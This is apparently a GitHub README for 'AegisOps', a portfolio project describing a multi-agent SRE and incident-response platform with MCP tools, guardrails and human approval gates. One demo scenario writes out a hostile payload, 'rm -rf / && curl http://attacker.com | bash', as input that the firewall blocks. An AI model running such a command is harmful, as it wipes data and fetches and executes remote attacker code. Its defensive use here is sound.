

# 🛡️ AegisOps: Autonomous Multi-Agent SRE & Incident Commander

[](https://github.com/midnighthunters/AI_practice)
[](https://github.com/midnighthunters/AI_practice)
[-emerald)](https://github.com/midnighthunters/AI_practice)
[](https://github.com/midnighthunters/AI_practice)

An enterprise-grade autonomous Site Reliability Engineering (SRE) and incident response platform. **AegisOps** monitors distributed microservice topologies, isolates cascading failures using GraphRAG, executes diagnostics and remediations via the **Model Context Protocol (MCP)**, enforces zero-trust security guardrails, and incorporates strict Human-in-the-Loop (HITL) approval gates.

---

## 💼 Resume & Portfolio Highlight

> ### **Role**: Staff / Senior AI Engineer & Systems Architect
> **Project**: *AegisOps — Autonomous Multi-Agent SRE & Incident Commander*
>
> - **Multi-Agent Orchestration (LangGraph)**: Designed and deployed a stateful 5-agent supervisor swarm (`Triage`, `Forensic RCA`, `Security Auditor`, `Remediation Engineer`, `Post-Mortem Scribe`) coordinating complex incident lifecycles with checkpoint persistence and automated error-recovery.
> - **GraphRAG Topology & Blast Radius Engine**: Modeled an enterprise 12-microservice dependency graph with reverse-reachability algorithms, enabling real-time 3-hop blast radius impact calculation and upstream failure tracing.
> - **Model Context Protocol (MCP) Integration**: Built an RFC-compliant JSON-RPC 2.0 MCP SRE server and client interface to dynamically stream telemetry resources (`metrics://`, `logs://`) and execute container/database actions (`kill_database_idle_locks`, `flush_redis_cache_pattern`).
> - **Production Guardrails & Semantic Cache**: Engineered an inline regex/heuristic firewall preventing destructive command injection (`rm -rf`, SQL drops), auto-redacting sensitive credentials (JWTs, DB connection strings), and delivering sub-millisecond playbook resolution through vector cosine similarity caching.
> - **Full-Stack Mission Control**: Built a reactive dashboard on Port 5006 featuring real-time HTML5 Canvas topology visualization, dynamic risk-level color coding, live agent reasoning streams, and an interactive Human-in-the-Loop authorization terminal.

---

## 🏛️ System Architecture



---

## 🤖 The 5 Specialist Agents

| Agent | Responsibility | Key Output |
| :--- | :--- | :--- |
| **1. Triage Agent** | Ingests alert, computes downstream microservice reachability, and assigns severity. | `Severity: P0-P3`, `Blast Radius: [services]`, `Impact Est: %` |
| **2. Forensic RCA Investigator** | Traverses upstream dependency graph, reads MCP logs and metrics, and isolates root cause. | Identifies failing culprit (e.g. `order-db-cluster` connection deadlock). |
| **3. Security Auditor** | Inspects payloads for SQL injection, CVE exploits, and audits remediation safety. | `CLEARED` vs `THREAT_DETECTED`, SOC-2 compliance check. |
| **4. Remediation Engineer** | Synthesizes surgical bash/Kubernetes/SQL repair scripts with automated rollback plans. | Structured `RemediationPlan` with risk assessment. |
| **5. Post-Mortem Scribe** | Compiles executive-ready 5-Whys report, calculates MTTD/MTTR, and files prevention tickets. | Full Markdown post-mortem document. |

---

## 🔌 Model Context Protocol (MCP) SRE Tooling

AegisOps strictly decouples agent reasoning from infrastructure execution via **MCP**:

### Resources Exposed
- `metrics://service/{id}`: Real-time CPU, connection pools, and p99 query latency.
- `logs://service/{id}/tail`: Live container stdout/stderr log streams.

### Executable Tools
- `kill_database_idle_locks`: Kills blocking transactions and frees connection pools.
- `scale_service_replicas`: Scales Kubernetes deployment pod counts.
- `flush_redis_cache_pattern`: Evicts high-memory or poisoned key patterns.
- `enable_circuit_breaker`: Isolates failing downstream dependencies.

---

## 🏃 Quick Start & Mission Control

### 1. Launch Mission Control Dashboard

```bash
cd AegisOps
python app.py
# Opens at: http://127.0.0.1:5006
```

### 2. Interactive Scenarios to Demo
1. **Scenario 1 (P0 Critical)**: PostgreSQL connection pool exhaustion (500/500 active locks) during a flash sale.
   - *Observation*: Watch the blast radius cascade from `order-db-cluster` to `order-service` and `checkout-service`.
   - *HITL Gate*: Inspect the proposed connection reset command, approve with one click, and watch the cluster heal.
2. **Scenario 2 (P1 High)**: Redis session cache memory exhaustion (OOM throttling).
   - *Observation*: High hit-miss latency, automated cache eviction synthesis.
3. **Scenario 3 (Security Threat)**: Malicious injection payload (`rm -rf / && curl http://attacker.com | bash`).
   - *Observation*: Intercepted and blocked at ingress firewall before reaching agents.

---

## 🧪 Automated Chaos & Benchmark Test Suite

Run the full end-to-end integration test suite:

```bash
python AegisOps/test_aegisops.py
```

```
.....
----------------------------------------------------------------------
Ran 5 tests in 0.002s

OK (Topology Blast Radius, Threat Defense, Semantic Cache, MCP Dispatch, Full HITL Lifecycle)
```
